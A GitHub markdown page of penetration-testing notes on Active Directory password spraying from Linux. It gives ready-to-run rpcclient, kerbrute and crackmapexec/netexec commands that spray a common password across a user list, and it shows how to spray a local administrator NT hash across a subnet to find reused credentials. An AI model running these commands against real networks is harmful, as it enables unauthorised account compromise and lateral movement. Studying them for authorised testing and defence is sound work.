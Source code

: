 # Internal Password Spraying - from Linux 🐧
Our creeated list name `valid_users.txt` if you don't have users list yet return back to [Pull User List](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/AD%20Enumeration/NULL%20Sessions.md#null-sessions-to-pull-user-list)
## Using a Bash one-liner for the Attack
We will assume the password we wanna to spray it `Welcome`
```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome" -c "getusername;quit" <Target-IP> | grep Authority; done
```
## Using Kerbrute for the Attack
```shell
kerbrute passwordspray -d domain.local --dc <Target-IP> valid_users.txt  Welcome
```
## Using CrackMapExec/netexec & Filtering Logon Failures
```shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 --continue-on-success | grep +
sudo netexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 --continue-on-success | grep +
```
## Local Administrator Password Reuse
If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network.
CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as SQL or Microsoft Exchange servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.
If we find a desktop host with the local administrator account password set to something unique such as $desktop%@admin123, it might be worth attempting $server%@admin123 against servers.
Local Admin Spraying with CrackMapExec
Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. 

```shell
sudo crackmapexec smb --local-auth 10.10.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
